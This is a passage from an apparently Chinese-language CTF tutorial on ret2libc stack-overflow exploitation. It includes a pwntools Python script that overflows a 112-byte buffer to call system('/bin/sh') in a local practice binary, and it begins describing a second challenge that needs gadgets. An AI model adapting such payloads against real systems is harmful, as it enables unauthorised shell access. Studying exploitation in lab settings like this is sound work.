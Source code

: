 ![image-20231111162445205](images/ret2libc.assets/image-20231111162445205.png)



借助工具寻找"/bin/sh"字符串

![image-20231111162351020](images/ret2libc.assets/image-20231111162351020.png)



## 构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

payload = b"A" * 112 + p32(0x08048460) + b"A" * 4 + p32(0x08048720) 

sh.sendline(payload)
sh.interactive()
```





# ret2lib2

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。
